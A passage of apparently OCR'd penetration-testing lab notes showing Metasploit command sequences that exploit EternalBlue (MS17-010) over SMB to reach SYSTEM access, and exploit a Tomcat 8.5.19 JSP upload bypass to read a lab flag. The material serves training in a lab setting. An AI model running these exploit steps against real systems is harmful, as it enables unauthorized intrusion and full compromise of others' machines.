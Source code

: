 ```shell
run

# Analyze the output to confirm vulnerability

# Search for the actual exploit module for EternalBlue
search type:exploit EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOST <target-ip>

# Execute the exploit and establish a session
run

# Verify system access
sysinfo
getuid
# Full system compromise confirmed – no need for privilege escalation as we already have SYSTEM-level access.
```

### 5.3. Exploiting A Vulnerable Apache Tomcat Web Server

Apache Tomcat is a Java web server that primarily serves as a servlet container, which means it provides an environment for running Java-based web applications. In this lab, we will identify a vulnerability in the Tomcat server and exploit it using a suitable Metasploit module.

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.

**Objective**: Exploit the application and retrieve the flag!

```shell
nmap --top-ports 65536 <target_IP>
# We have discovered that multiple ports are open. Access port 8080 using firefox browser.
firefox demo.ine.local:8080
# Target is running a Tomcat Server 8.5.19. Search “apache tomcat 8.5.19 exploit” on google to find the vulnerability.
nmap -sV -p 8080 <target_IP>

# Search for Tomcat JSP exploit modules
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOSTS <target_IP>
check 
# We are running a “check” command in the metasploit framework to make sure the target is vulnerable.
exploit

# Searching the flag.
cd /
dir
cat flag.txt
```
